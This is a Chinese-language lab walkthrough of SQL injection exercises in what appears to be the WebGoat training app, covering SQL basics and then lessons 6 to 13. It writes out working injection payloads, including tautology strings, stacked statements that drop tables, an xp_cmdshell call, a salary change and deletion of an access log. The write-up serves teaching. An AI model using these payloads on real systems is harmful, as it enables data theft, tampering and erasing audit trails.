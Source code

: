 # SQL注入

[TOC]

## Lesson 2

**SQL** (Structured Query Language:结构化查询语言) 是用于管理关系数据库管理系统（RDBMS）。 SQL 的范围包括数据插入、查询、更新和删除，数据库模式创建和修改，以及数据访问控制。

### Assigment

尝试检索员工 Bob Franco 的部门。`select * from employees where first_name='Bob'`

![image-20240525085554372](./assets/image-20240525085554372.png)

### 代码审计



所以在这个案例中，我们是可以实现注入的，但是由于我们是以只读的方式打开数据库导致我们并不能用注入修改数据库。

![image-20240525100501031](./assets/image-20240525100501031.png)

```
`CONCUR_READ_ONLY` 是 JDBC（Java 数据库连接）中的一个常量，用于指定创建的结果集（ResultSet）对象的类型。

具体来说，`CONCUR_READ_ONLY` 意味着创建的结果集是只读的，不支持对结果集进行更新操作。这样的结果集适用于仅需从数据库中检索数据而不需要对数据进行修改的情况。

当您使用 `CONCUR_READ_ONLY` 来创建结果集时，您可以通过该结果集进行数据的检索、遍历和处理，但是无法通过该结果集对数据库中的数据进行修改、插入或删除操作。这可以提供一定程度的安全性和性能优势，特别是在只需要读取数据的场景下。

在使用 JDBC 连接数据库并执行查询时，您可以选择使用 `CONCUR_READ_ONLY` 来创建只读的结果集，以满足您的业务需求。
```

最后提一嘴，返回connect其实是被代理过的写法很有意思。估计是为了做隔离，保护原始数据不在接下来的实验中被损坏。

![image-20240525101922729](./assets/image-20240525101922729.png)

## Lesson 3

顾名思义，数据操作语言用于处理数据操作。许多最常见的 SQL 语句（包括 SELECT、INSERT、UPDATE 和 DELETE）都可以归类为 DML 语句。

### Assigment

更新数据库信息，将员工Tobi Barnett的部门修改成'Sales'。

1. 执行修改命令`update employees set department = 'Sales' where first_name='Tobi'`

   ![image-20240525110912636](./assets/image-20240525110912636.png)

## Lesson 4

数据定义语言，用于定义数据库结构。

* create
* alter
* drop

### Assigment

将phone列添加到employees表中

1. 输入`alter table employees add phone varchar(20);`

## Lesson 5

数据库控制语言，用于对数据库实现访问控制。

* Grant授予用户对数据库对象的访问权限
* Revoke撤销先前使用 GRANT 授予的用户权限

### Assigment

1. 执行命令`grant all on grant_rights  to unauthorized_user`

   ![image-20240525114817865](./assets/image-20240525114817865.png)

## Lesson 6

SQL 注入 (也称为 SQLi) 是最常见的网络黑客技术之一。SQL**注入攻击包括通过从客户端到应用程序的 SQL 查询输入插入或“注入”恶意代码。**如果处理不当，SQL 注入会严重影响数据的完整性和安全性。

* Smith' OR '1' = '1

  结果`SELECT * FROM users WHERE name = 'Smith' OR TRUE;`将返回用户表中的所有条目

* Smith' OR 1 = 1; --

​	`SELECT * FROM users WHERE name = 'Smith' OR TRUE;--';`与第一个例子一样， 结果也将返回用户表中的所有条目

* Smith'; DROP TABLE users; TRUNCATE audit_log; --

​	链接多个 SQL 命令，以便删除用户表并删除 audit_log 表中的所有条目

## Lesson 8

### 并非所有数据库都支持命令链

* Microsoft Access
* MySQL Connector/J and C
* Oracle

### SQL注入普遍发生在PHP, Classic ASP, Cold Fusion 等一些较为老的语言中

- 不提供参数化查询支持的语言
- 参数化查询已添加到较新版本
- Web 技术的早期采用者（即旧代码）

### 不同数据库是有差别的

* Command shell: `master.dbo.xp_cmdshell 'cmd.exe dir c:'`
* Registry commands: `xp_regread`, `xp_regdeletekey`, …

## Lesson 9 字符串注入

### Assigment

```
smith' or `1`=`1
```



![image-20240525121441611](./assets/image-20240525121441611.png)

### 总结

字符串查询注入

```sql
smith' or `1`=`1
```

## Lesson 10 数字注入

### Assigment

```
1
1 or 1=1
```

![image-20240525122613492](./assets/image-20240525122613492.png)

## Lesson 11 

### Assigment

查看所有人薪酬

```sql
tom
notan' or '1'='1
```

![image-20240525123311774](./assets/image-20240525123311774.png)

## Lesson12 

### Assigment

增加薪水

```
Smith 
3SL99A'; update employees set salary=1000000 where userid=37648; --
```

![image-20240525124215482](./assets/image-20240525124215482.png)

## Lesson13

### Assigment

清除日志

```
update' or 1=1; drop table if exists access_log; --
```

![image-20240525125244670](./assets/image-20240525125244670.png)

